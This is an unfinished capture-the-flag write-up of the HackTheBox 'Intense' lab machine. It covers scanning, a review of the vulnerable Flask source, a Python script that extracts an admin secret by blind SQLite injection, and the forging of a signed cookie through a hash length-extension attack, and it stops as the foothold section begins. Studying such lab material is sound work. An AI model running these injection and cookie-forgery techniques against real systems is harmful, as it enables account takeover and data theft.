# HTB - Intense

## Overview - TODO: finish cleaning up notes


Short description to include any strange things to be dealt with - Linux hard difficulty

## Useful Skills and Tools

#### Useful thing 1

* description with generic example

#### Useful thing 2

* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.195`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ nmap -n -v -sCV -p- 10.10.10.195 -oA intense  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-01 20:13 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
Initiating NSE at 20:13
Completed NSE at 20:13, 0.00s elapsed
Initiating Ping Scan at 20:13
Scanning 10.10.10.195 [2 ports]
Completed Ping Scan at 20:13, 0.05s elapsed (1 total hosts)
Initiating Connect Scan at 20:13
Scanning 10.10.10.195 [65535 ports]
Discovered open port 80/tcp on 10.10.10.195
Discovered open port 22/tcp on 10.10.10.195
Completed Connect Scan at 20:13, 22.38s elapsed (65535 total ports)
Initiating Service scan at 20:13
Scanning 2 services on 10.10.10.195
Completed Service scan at 20:14, 6.14s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.195.
Initiating NSE at 20:14
Completed NSE at 20:14, 1.59s elapsed
Initiating NSE at 20:14
Completed NSE at 20:14, 0.25s elapsed
Initiating NSE at 20:14
Completed NSE at 20:14, 0.00s elapsed
Nmap scan report for 10.10.10.195
Host is up (0.071s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b4:7b:bd:c0:96:9a:c3:d0:77:80:c8:87:c6:2e:a2:2f (RSA)
|   256 44:cb:fe:20:bb:8d:34:f2:61:28:9b:e8:c7:e9:7b:5e (ECDSA)
|_  256 28:23:8c:e2:da:54:ed:cb:82:34:a1:e3:b2:2d:04:ed (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Intense - WebApp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 20:14
Completed NSE at 20:14, 0.00s elapsed
Initiating NSE at 20:14
Completed NSE at 20:14, 0.00s elapsed
Initiating NSE at 20:14
Completed NSE at 20:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.86 seconds
```

My nmap scan showed that only ports 22 - SSH and 80 - HTTP were open. 

### Port 80 - HTTP


With so little to work with, I loaded the HTTP site hosted on port 80, and found a site that greeted me with a message with guest logon credentials.

> Hello ! You can login with the username and password guest.

The site also pointed out that it was open source, and had a link that let me download `src.zip` which contained the source code for the site.

> This app is opensource !



After logging in with the guest credentials, there was a message that said:

> One day, an old man said "there is no point using automated tools, better to craft his own".

This appeared to be a hint that automated tools would not work to get whatever I needed from this site.



On the `/submit` page I found an input box, and of course I had to see what kind of vulnerabilities it might have!  First I tried the basic `<script>alert('test')</script>` test, and got an interesting error right away.


While testing for XSS, I found that the input box seemed to hint at SQL injection vulnerability since it seemed to have problems with me using single quotes.  After testing this for a short time I decided to look into the code from the `src.zip` I downloaded from the main page to find out what kind of queries I might need to formulate.

### Source Code Review

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ tree app         
app
├── admin.py
├── app.py
├── lwt.py
├── static
│   ├── css
│   │   └── style.css
│   ├── img
│   │   ├── app-bg.png
│   │   ├── apple-touch-icon.png
│   │   ├── arrow1.png
│   │   ├── arrow2.png
│   │   ├── favicon.png
│   │   ├── intro01.png
│   │   ├── intro02.png
│   │   ├── intro03.png
│   │   ├── item-01.png
│   │   ├── item-02.png
│   │   └── mobile.png
│   ├── js
│   │   └── main.js
│   └── lib
│       ├── bootstrap
│       │   ├── css
│       │   │   ├── bootstrap.css
│       │   │   └── bootstrap.min.css
│       │   ├── fonts
│       │   │   ├── glyphicons-halflings-regular.eot
│       │   │   ├── glyphicons-halflings-regular.svg
│       │   │   ├── glyphicons-halflings-regular.ttf
│       │   │   ├── glyphicons-halflings-regular.woff
│       │   │   └── glyphicons-halflings-regular.woff2
│       │   └── js
│       │       ├── bootstrap.js
│       │       └── bootstrap.min.js
│       ├── easing
│       │   ├── easing.js
│       │   └── easing.min.js
│       ├── jquery
│       │   ├── jquery.js
│       │   └── jquery.min.js
│       └── php-mail-form
│           └── validate.js
├── templates
│   ├── admin.html
│   ├── footer.html
│   ├── header.html
│   ├── home.html
│   ├── index.html
│   ├── login.html
│   └── submit.html
└── utils.py

13 directories, 38 files
```

The file `src.zip` contained source code templates for the website, in a folder called `app`.  The most interesting files were the python code files which ran the site using the Flask framework.



In the file `admin.py` I found a few new directory paths to check out. 



The `/admin` page was forbidden, as expected.



As noted in the code, the two `/admin/log` paths required POST rather than GET requests.  It looked like I would need an admin session token to get anything out of these sites.  

```http
Cookie: auth=dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7.7B6PiygW8lDO84yRQABGvGfw0ttyTDTwk0h+GEEFpgI=
```

I checked out the request to the page in Burp and found that there was a cookie header, with a base64 encoded string value for the `auth` parameter.

```http
Cookie: auth=username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;쏋(òPÎóŒ‘@
```

I decoded the base64 and found the `auth` cookie contained the username, a hex secret, and some kind of binary garbage appended to the end of the string.  It looked like I needed a way to get the secret for a user `admin` \(from the source code\).

```python
from flask import Flask, request, render_template, g, redirect, url_for,\
    make_response
from utils import get_db, get_session, get_user, try_login, query_db, badword_in_str
from admin import admin
import sqlite3
import lwt


app = Flask(__name__)

app.register_blueprint(admin)


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()


@app.route('/submit', methods=["GET"])
def submit():
    session = get_session(request)
    if session:
        user = get_user(session["username"], session["secret"])
        return render_template("submit.html", page="submit", user=user)
    return render_template("submit.html", page="submit")


@app.route("/submitmessage", methods=["POST"])
def submitmessage():
    message = request.form.get("message", '')
    if len(message) > 140:
        return "message too long"
    if badword_in_str(message):
        return "forbidden word in message"
    # insert new message in DB
    try:
        query_db("insert into messages values ('%s')" % message)
    except sqlite3.Error as e:
        return str(e)
    return "OK"


@app.route("/login", methods=["GET"])
def login():
    return render_template("login.html", page="login")


@app.route("/postlogin", methods=["POST"])
def postlogin():
    # return user's info if exists
    data = try_login(request.form)
    if data:
        resp = make_response("OK")
        # create new cookie session to authenticate user
        session = lwt.create_session(data)
        cookie = lwt.create_cookie(session)
        resp.set_cookie("auth", cookie)
        return resp
    return "Login failed"


@app.route("/logout")
def logout():
    resp = make_response("<script>document.location.href='/';</script>")
    resp.set_cookie("auth", "", expires=0)
    return resp


@app.route("/")
@app.route("/home")
def index():
    session = get_session(request)
    if session and "username" in session:
        user = get_user(session["username"], session["secret"])
        print(user)
        return render_template("home.html", page="home", user=user)
    return render_template("home.html", page="home")


if __name__ == "__main__":
    app.run()
```

The file `app.py` contained a few interesting methods.  It looked like `submitmessage` restricted the message submissions to less than 140 characters and also did some sort of "bad word" check to filter input.  Afterwards it would place the message in the database if it passed those checks.

```python
from hashlib import sha256
from base64 import b64decode, b64encode
from random import randrange
import os

SECRET = os.urandom(randrange(8, 15))


class InvalidSignature(Exception):
    pass


def sign(msg):
    """ Sign message with secret key """
    return sha256(SECRET + msg).digest()


def verif_signature(data, sig):
    """ Verify if the supplied signature is valid """
    return sign(data) == sig


def parse_session(cookie):
    """ Parse cookie and return dict
        @cookie: "key1=value1;key2=value2"

        return {"key1":"value1","key2":"value2"}
    """
    b64_data, b64_sig = cookie.split('.')
    data = b64decode(b64_data)
    sig = b64decode(b64_sig)
    if not verif_signature(data, sig):
        raise InvalidSignature
    info = {}
    for group in data.split(b';'):
        try:
            if not group:
                continue
            key, val = group.split(b'=')
            info[key.decode()] = val
        except Exception:
            continue
    return info


def create_session(data):
    """ Create session based on dict
        @data: {"key1":"value1","key2":"value2"}

        return "key1=value1;key2=value2;"
    """
    session = ""
    for k, v in data.items():
        session += f"{k}={v};"
    return session.encode()


def create_cookie(session):
    cookie_sig = sign(session)
    return b64encode(session) + b'.' + b64encode(cookie_sig)
```

The code file `lwt.py` contained code for creating the session and the cookie.  It also contained the code which explained the garbage at the end of the string, it was a signature comprised of the sha256 digest of the rest of the `auth` string.

```python
import lwt
import sqlite3
from hashlib import sha256
from flask import g
from os import listdir, path
import datetime


DATABASE = "database.db"


class User:
    def __str__(self):
        return "User(username=%s,role=%d)" % (self.username,
                                              self.role)


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    return db


def log_login(user):
    now = datetime.datetime.now()
    d = now.strftime("%Y-%m-%d")
    with open(f"logs/{d}.log", 'a') as log:
        log.write(str(user) + ' logged\n')


def badword_in_str(data):
    data = data.lower()
    badwords = ["rand", "system", "exec", "date"]
    for badword in badwords:
        if badword in data:
            return True
    return False


def hash_password(password):
    """ Hash password with a secure hashing function """
    return sha256(password.encode()).hexdigest()


def query_db(query, args=(), one=False):
    cur = get_db().execute(query, args)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv


def get_user(username, secret):
    """ Returns User object if given username/secret exist in DB """
    username = username.decode()
    secret = secret.decode()
    res = query_db("select role from users where username = ? and secret = ?", (username, secret), one=True)
    if res:
        user = User()
        user.username = username
        user.role = res[0]
        log_login(user)
        return user
    return None

def try_login(form):
    """ Try to login with the submitted user info """
    if not form:
        return None
    username = form["username"]
    password = hash_password(form["password"])
    result = query_db("select count(*) from users where username = ? and secret = ?", (username, password), one=True)
    if result and result[0]:
        return {"username": username, "secret":password}
    return None


def get_session(request):
    """ Get user session and parse it """
    if not request.cookies:
        return 
    if "auth" not in request.cookies:
        return
    cookie = request.cookies.get("auth")
    try:
        info = lwt.parse_session(cookie)
    except lwt.InvalidSignature:
        return {"status": -1, "msg": "Invalid signature"}
    return info


def is_admin(request):
    session = get_session(request)
    if not session:
        return None
    if "username" not in session or "secret" not in session:
        return None
    user = get_user(session["username"], session["secret"])
    return user.role == 1


#### Logs functions ####
def admin_view_log(filename):
    if not path.exists(f"logs/{filename}"):
        return f"Can't find {filename}"
    with open(f"logs/{filename}") as out:
        return out.read()


def admin_list_log(logdir):
    if not path.exists(f"logs/{logdir}"):
        return f"Can't find {logdir}"
    return listdir(logdir)
```

The final file `utils.py` also contained some interesting methods. The method `is_admin()` told me that the `admin` user has a role of `1` in the database, `get_user()` and `try_login()` gave me some example SQL queries to test, and `badword_in_str()` gives me a list of filtered words `["rand", "system", "exec", "date"]` to avoid using.  It looked like I would not be able to execute code directly with my SQL injection and would have to pull out the data I wanted instead.

### SQLite SQL Injection



Using information from `utils.py` I crafted the query: `' AND select secret from users where username = admin and role =1`, but got another syntax error.  



`a') UNION SELECT password FROM users --` resulted in the error `no such column: password`. However, substituting 'password' with 'secret' made it so the message was submitted with no error messages.  From the source code I could see that the backend database was sqlite3, so I did some research into doing SQL injection on this type of database.  I found a few resources that helped explain what I was doing wrong.

* [https://stackoverflow.com/questions/62803167/how-to-make-the-sql-injection-on-insert-work-on-sqlite](https://stackoverflow.com/questions/62803167/how-to-make-the-sql-injection-on-insert-work-on-sqlite)
* [https://stackoverflow.com/questions/15513854/sqlite3-warning-you-can-only-execute-one-statement-at-a-time](https://stackoverflow.com/questions/15513854/sqlite3-warning-you-can-only-execute-one-statement-at-a-time)

Apparently the errors I received while inserting a semicolon were because I could only execute one query at a time. The first source above supplies a work-around for this problem from Stack Overflow.

> Ok so I've spent some time working on this and there is a way to make it work. You can interrogate sqlite on queries like: "SELECT CASE WHEN \(SELECT SUBSTRING\(password, 1, 1\)\) = 'a' THEN 1 END". You can write a simple python script that changes the 1 inside substring and the 'a' char. In this way you can pretty much bruteforce the output of the column. – RobertM Jul 16 at 19:11

I seemed like I would have to brute force each character of the secret string. I did some more reading to see how to craft this type of SQL query since it was new to me.

* [https://www.sqlitetutorial.net/sqlite-case/](https://www.sqlitetutorial.net/sqlite-case/)

I was encountering a problem with my output only matching a zero `'0'` for the secret until I searched for SQLite3 error-based injection and found a \(russian-language\) site that showed how to use MATCH to get this to work properly.  [https://translate.google.com/translate?hl=en&sl=ru&u=https://rdot.org/forum/showthread.php%3Fp%3D26419&prev=search](https://translate.google.com/translate?hl=en&sl=ru&u=https://rdot.org/forum/showthread.php%3Fp%3D26419&prev=search)



However I still encountered a problem, since it seemed as if I wasn't able to use the MATCH\(\) method in this context.



I also made a mistake when typing in the method SUBSTR, and I got a bit frustrated with sending individual queries through the website so I moved on to Burp suite to optimize my query testing.  After awhile I finally worked out the kinks and got a working query.  



To test my theory I used Burp's Intruder to test a brute force of all alpha-numeric characters on the first character of the 'secret' string.


I set Intruder to only fuzz the single character at a time in my query.



After letting the fuzzer run, I found that the first character in the admin's secret was `'f'`.  This was the only request that received an HTTP 200 OK message.

### Using python to brute force

```bash
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ echo -n '84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec' | wc -c
64
```

I used the cookie I already had to pull out the secret string `84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec` which was 64 characters long.  This let me know how many characters I needed to brute force for the admin secret. From this I used Python to write a brute force program to iterate through all 64 characters in the secret. The following sources helped me:

* To get all alpha-numeric chars: [https://stackoverflow.com/questions/5891453/is-there-a-python-library-that-contains-a-list-of-all-the-ascii-characters](https://stackoverflow.com/questions/5891453/is-there-a-python-library-that-contains-a-list-of-all-the-ascii-characters)
* To print output dynamically on one line: [https://stackoverflow.com/questions/3249524/print-in-one-line-dynamically](https://stackoverflow.com/questions/3249524/print-in-one-line-dynamically)
* To get the run-time of a program or method: [https://stackoverflow.com/questions/1557571/how-do-i-get-time-of-a-python-programs-execution](https://stackoverflow.com/questions/1557571/how-do-i-get-time-of-a-python-programs-execution)

```python
import requests
import string
import time

url = "http://10.10.10.195/submitmessage"
guest_secret = "dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7.yUJDSrHY6MXeDWIMvm6WVBrBiI11ILXthKcNc22KYMY="
referer = "http://10.10.10.195/submit"

def get_secret():
    secret = ""
    print("The secret for admin is: ", sep="", end="", flush=True)
    for i in range(64):
        for char in string.printable:
            
            #range(n) starts at 0 and ends at n-1, so need to add 1 when selecting which string location to brute force
            sql_query = "' AND (SELECT CASE WHEN ((SELECT hex(substr(secret,"+str(i+1)+",1)) FROM users WHERE role=1) = hex('"+str(char)+"')) THEN 1 ELSE MATCH(1,1) END))--"
            message = requests.post(url, cookies = { "auth" : guest_secret , "Referer" : referer }, data = { "message" : sql_query }).text
            
            # since error messages start with the word "unable", use this to filter out the correct letter
            if not "unable" in message:
                print(char, sep="", end="", flush=True)
                secret += char
                break

start_time = time.time()

get_secret()

print("")
print("Total runtime: ")
print("--- %s seconds ---" % (time.time() - start_time))
```

My finalized python script was fairly short, and mostly consisted of creating a request with the SQL injection query in it.  I then iterated over all printable ASCII characters for each of the 64 positions in the secret.  I also added a little timer to see how long it would take to brute force the whole secret.

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ python3 ./secret-brute-force.py 
Iterating through all 64 chars in the secret: 
The secret for admin is: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
Total runtime: 
--- 48.5825309753418 seconds ---
```

The whole brute force went pretty quickly!  From the timer I found that it took less than 50 seconds to go through the whole string.

```text
auth=username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;ÉBCJ±ØèÅÞ
b¾n–TÁˆu µí„§
smŠ`Æ
```

Next I crafted my new `auth` cookie, `base64`'d it, and got the result: `dXNlcm5hbWU9YWRtaW47c2VjcmV0PWYxZmMxMjAxMGMwOTQwMTZkZWY3OTFlMTQzNWRkZmRjYWVjY2Y4MjUwZTM2NjMwYzBiYzkzMjg1YzI5NzExMDU7yUJDSrHY6MXeDWIMvm6WVBrBiI11ILXthKcNc22KYMY=`



Using this cookie, however, broke the whole site and made it so no pages would load. I figured it had something to do with the unreadable signature characters that were appended to the end of the secret in the cookie.

```python
def sign(msg):
    """ Sign message with secret key """
    return sha256(SECRET + msg).digest()


def verif_signature(data, sig):
    """ Verify if the supplied signature is valid """
    return sign(data) == sig


def parse_session(cookie):
    """ Parse cookie and return dict
        @cookie: "key1=value1;key2=value2"

        return {"key1":"value1","key2":"value2"}
    """
    b64_data, b64_sig = cookie.split('.')
    data = b64decode(b64_data)
    sig = b64decode(b64_sig)
    if not verif_signature(data, sig):
        raise InvalidSignature
    info = {}
    for group in data.split(b';'):
        try:
            if not group:
                continue
            key, val = group.split(b'=')
            info[key.decode()] = val
        except Exception:
            continue
    return info
```

I went back to the source code file `lwt.py` , which gave me the answer.  The data after the `;` was a signature created by running `sha256` on `secret + MSG`.

```python
def create_cookie(session):
    cookie_sig = sign(session)
    return b64encode(session) + b'.' + b64encode(cookie_sig)
```

In order to create the signature, I needed to run the `create_cookie()` method above to encode and sign the username and secret.

[https://github.com/bwall/HashPump](https://github.com/bwall/HashPump)

TODO: find out what happened to this script on import...should be below

```python

```

implementing hashpumpy...

```text
dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMQO3VzZXJuYW1lPWFkbWluO3NlY3JldD1mMWZjMTIwMTBjMDk0MDE2ZGVmNzkxZTE0MzVkZGZkY2FlY2NmODI1MGUzNjYzMGMwYmM5MzI4NWMyOTcxMTA1Ow==.IZp1w+kV4OqLepjmgjxZR6/bcZXtV138PqZiZdxNoGg=
```

The final admin cookie was:

```text
Cookie: auth=username=guest;secret=84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec;€username=admin;secret=f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105;.!šuÃéàê‹z˜æ‚<YG¯Ûq•íW]ü>¦beÜM h
```

For some reason the `hashpumpy` module added the guest cookie to the admin cookie, then appended the signature of them both together.


However this mega-cookie worked and I was able to login to the `/admin` page successfully.  

## Initial Foothold

### Remote Code Execution \(Limited\)

Back in the `admin.py` file it mentioned using the `logfile` and `logdir` properties on their respective directories, along with the POST method after logging in as admin.  This looked like a task for Burp Repeater.

